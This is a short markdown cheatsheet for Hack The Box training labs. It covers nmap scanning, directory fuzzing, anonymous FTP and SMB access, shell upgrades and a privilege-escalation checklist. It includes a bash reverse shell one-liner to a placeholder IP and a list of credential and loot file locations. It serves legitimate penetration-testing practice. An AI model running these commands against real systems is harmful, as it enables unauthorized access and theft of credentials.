 # 🧠 HTB Cheatsheet

Quick reference for Hack The Box workflow, recon, enumeration, exploitation, and privesc.

---

## 🔍 Recon - Nmap

```bash
# Full TCP scan (no ping)
nmap -p- -T4 -Pn <IP>

# Service/version detection on top 1000
nmap -sC -sV -oN service_scan.txt <IP>

# Quick scan
nmap -T4 -F <IP>
```

---

## 🌐 Web Fuzzing - FFUF / Gobuster

```bash
# FFUF - Directory scan
ffuf -u http://<IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt

# Gobuster - Directory scan
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```

---

## 📁 File Services (FTP / SMB)

### FTP
```bash
ftp <IP>
anonymous
ls
```

### SMB
```bash
smbclient -L //<IP> -N
smbclient //<IP>/sharename -N
```

---

## 🐚 Shell Tricks

```bash
# Upgrade to full TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo; fg
export TERM=xterm-256color
```

```bash
# Reverse shell (bash)
bash -i >& /dev/tcp/<YOUR-IP>/4444 0>&1
```

---

## 🔐 Privilege Escalation Checklist

- [ ] Check `sudo -l`
- [ ] Look for SUID binaries (`find / -perm -4000 2>/dev/null`)
- [ ] Crontab jobs
- [ ] World-writable files/scripts
- [ ] Kernel exploits (use `uname -a`)
- [ ] LinPEAS / pspy

---

## 🏁 HTB Flags

- 🧍 `user.txt` → usually in `/home/<user>/`
- 👑 `root.txt` → always in `/root/`

Use `cat` to print and copy the flag.

---

## 🧼 Loot Locations

```bash
~/.bash_history
/var/www/html
/etc/passwd
/home/*/.ssh/
```

---

## 💾 Useful Tools

- `nmap`, `rustscan`, `ffuf`, `gobuster`
- `smbclient`, `hydra`, `john`, `netcat`, `nc`
- `python3 -m http.server`

---

## 🗂 Reference

Add this to daily logs:
```markdown
📚 Reference: [[notes/htb-cheatsheet.md]]
```
